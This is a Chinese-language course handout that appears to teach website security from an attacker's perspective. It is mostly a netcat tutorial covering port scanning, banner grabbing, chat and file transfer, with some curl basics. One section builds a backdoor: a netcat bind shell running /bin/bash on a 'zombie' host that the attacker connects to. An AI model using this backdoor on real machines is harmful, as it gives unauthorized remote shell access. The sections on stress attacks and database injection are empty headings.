 [TOC]
#【课课程介绍】
“矛与盾”互联网中的黑客与红客的斗争，只有知己知彼，才能游刃有余，本次课程咱们站在“黑客”的角度来扫描和测试一个网站的安全性，提出网络安全修改建议，筑起网站服务器的防御盾牌
#【课程知识点】
1. Linux系统常用终端命令
2. 网络入侵利器，瑞士军刀netcat的使用
3. 网站端口扫描，服务器植入后门
4. webbench和ab高并发请求，海量数据攻击
5. 数据库注入与修改

#【课程详情】

## Linux系统常用终端命令

## 网络入侵利器，瑞士军刀netcat的使用
netcat是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据。通过与其他工具结合和重定向，你可以在脚本中以多种方式使用它

netcat所做的就是在两台电脑之间建立链接并返回两个数据流，在这之后所能做的事就看你的想像力了。你能建立一个服务器，传输文件，与朋友聊天，传输流媒体或者用它作为其它协议的独立客户端

### 端口扫描
端口扫描经常被系统管理员和黑客用来发现在一些机器上开放的端口，帮助他们识别系统中的漏洞。

```
nc -z -v -n -w 1 server_ip 1-1000
```
### 查看banner
Banner是一个文本，Banner是一个你连接的服务发送给你的文本信息。当你试图鉴别漏洞或者服务的类型和版本的时候，Banner信息是非常有用的。但是，并不是所有的服务都会发送banner。

打印运行在这个端口上服务的banner信息

```
nc -v server_ip 21
```
### 即时通讯
假如你想和你的朋友聊聊，有很多的软件和信息服务可以供你使用。但是，如果你没有这么奢侈的配置，比如你在计算机实验室，所有的对外的连接都是被限制的，你怎样和整天坐在隔壁房间的朋友沟通那？不要郁闷了，netcat提供了这样一种方法，你只需要创建一个Chat服务器，一个预先确定好的端口，这样子他就可以联系到你了。

server
```
nc -l 10000
```

clent
```
nc server_ip 10000
```

### 文件传输

大部分时间中，我们都在试图通过网络或者其他工具传输文件。
有很多种方法，比如FTP,SCP,SMB等等，但是当你只是需要临时或者一次传输文件，真的值得浪费时间来安装配置一个软件到你的机器上嘛。
假设，你想要传一个文件file.txt从A到B。

让A作为服务器，B为客户端。

server
```
nc -l 10000 < file.txt
```

client
```
$nc -n server_ip 10000 > file.txt
```

备注：

	'<' : 输入重定向
	'>' : 输出重定向


### 流视频
server
```
cat video.avi | nc -l 10000
```
这里我们只是从一个视频文件中读入并重定向输出到netcat客户端

client
```
nc server_ip 10000 | mplayer -vo x11 -cache 3000 -
```

这里我们从socket中读入数据并重定向到mplayer。

备注：
	sudo apt-get install smyplayer

### 指定源端口
假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。
server
```
nc -l 10000
```
client
```
nc server_ip 10000 -p 25
```
使用1024以内的端口需要root权限。
该命令将在客户端开启25端口用于通讯，否则将使用随机端口。

### 指定源地址
假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。

server
```
nc -u -l 10000 < file.txt
```
client
```
nc -u server_ip 10000 -s client_ip > file.txt
```
该命令将绑定地址172.31.100.5。
这仅仅是使用netcat的一些示例。

### telnet客户端

```
nc -t server_ip
```

### 服务器后门
常见的netcat有两种版本，GNU和OPENBSD版本，ubuntu14.04自带的时OPENBSD版本的。不支持-e参数。

请下载安装GNU版本
```
http://netcat.sourceforge.net/
```
编译安装

	./configure
	make
	sudo make install

因为ubuntu已安装netcat，所以出现了重名,查看是否安装成功

	/usr/local/bin/netcat -h


server(肉鸡)
```
/usr/local/bin/netcat -l  -p 10000 -e /bin/bash
```

client(攻击者)
```
/usr/local/bin/netcat server_ip 10000
```

至于怎么在肉鸡上安装netcat，我就不深入探讨了(PS:有点不道德)

### 参数说明

可以运行在TCP或者UDP模式，默认是TCP

	-u 参数调整为udp.
	-z 参数告诉netcat使用0 IO,连接成功后立即关闭连接， 不进行数据交换
	-v 参数指使用冗余选项,即详细输出
	-n 参数告诉netcat 不要使用DNS反向查询IP地址的域名
	-s 指定本地选用ip地址
	-i 延迟秒数,设置时间间隔，以便传送信息及扫描通信端口
	-l 使用监听模式，监控传入的资料
	-p 设置本地主机使用的通信端口
	-w 超时秒数,设置等待连线的时间


## curl工具

### 基本用法
```
curl http://www.sina.com.cn
```
### 获取响应头部信息
```
curl -I http://www.sina.com.cn
```
### 下载保存
```
curl http://www.c.itcast.cn > itcast.html
curl -o index.html http://www.itcast.cn
curl -O http://www.itcast.cn/files/image/201412/20141231101944337.jpg
```
备注：

	-o:指定保存文件名
	-O:保留源文件名
### 	
## webbench和ab高并发请求，海量数据攻击

## 数据库注入与修改
